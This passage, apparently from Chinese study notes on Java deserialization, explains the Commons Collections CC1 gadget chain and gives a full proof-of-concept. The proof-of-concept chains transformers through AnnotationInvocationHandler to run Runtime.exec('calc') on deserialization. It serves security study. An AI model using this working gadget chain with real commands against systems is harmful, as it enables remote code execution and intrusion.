 的XXX为Runtim.class就好。

解决这个问题，用到了ConstantTransformer类，构造的时候输入什么，在调用方法的就返回什么

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}
public Object transform(Object input) {
    return iConstant;
}
```

我们构造时输入Runtime.class，在调用tranform时返回Runtime.class。

正好第一行`new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}).tranform(XXX)`中输入XXX的值就变为Runtime.class.

最终的Poc

```java
public class cc1_poc {
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("s.ser"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
//7
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value",1); //不复制的话Map为空，不能遍历Map
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer); //super传的是hashMap.put(1,1)

        Class annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = annotationInvocationHandler.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Target.class, transformedMap);

        serialize(object);
        unserialize("s.ser");
    }
}
```



